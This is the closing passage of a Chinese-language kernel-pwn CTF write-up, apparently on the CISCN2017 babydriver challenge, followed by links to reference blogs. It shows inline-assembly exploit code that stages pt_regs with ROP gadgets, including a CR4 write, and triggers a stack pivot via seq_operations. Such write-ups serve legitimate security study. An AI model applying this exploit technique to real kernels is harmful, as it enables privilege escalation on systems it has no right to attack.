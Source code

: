 ```c
    // 通过add_rsp_0x150，迁移到这里，执行其中的一小段rop后，再次迁移到我们上面布置的rop链~
    info("Preparing pt_regs...");
    __asm__(
       "mov r15, 0xbeefdead;"
       "mov r14, 0xdeadbeaf;"
       "mov r13, mov_cr4_rdi_pop_rbp_ret;"
       "mov r12, 0x6f0;"
       "mov rbp, add_rsp_0x48_ret;"
       "mov rbx, pop_rdi_ret;"
       "mov r11, 0x66666666;"
       "mov r10, 0xdeadbeaf;" 
       "mov r9,  pop_rsp_ret;" // 后半部分
       "mov r8,  function;"
       "xor rax, rax;"
       "mov rcx, 0xaaaaaaaa;"
       "mov rdx, 8;"
       "mov rsi, rsp;"
       "mov rdi, seq_fd;"        // 通过 seq_operations->stat 来触发
       "syscall;"
    );

    return 0;
}
```



## 0x0?. 参考内容

[arttnba3师傅的博客](https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I)

[【kernel-pwn】一题多解：从CISCN2017-babydriver入门题带你学习tty_struct、seq_file、msg_msg、pt_regs的利用_ciscn 2017 babydrive-CSDN博客](https://blog.csdn.net/qq_61670993/article/details/133414825)
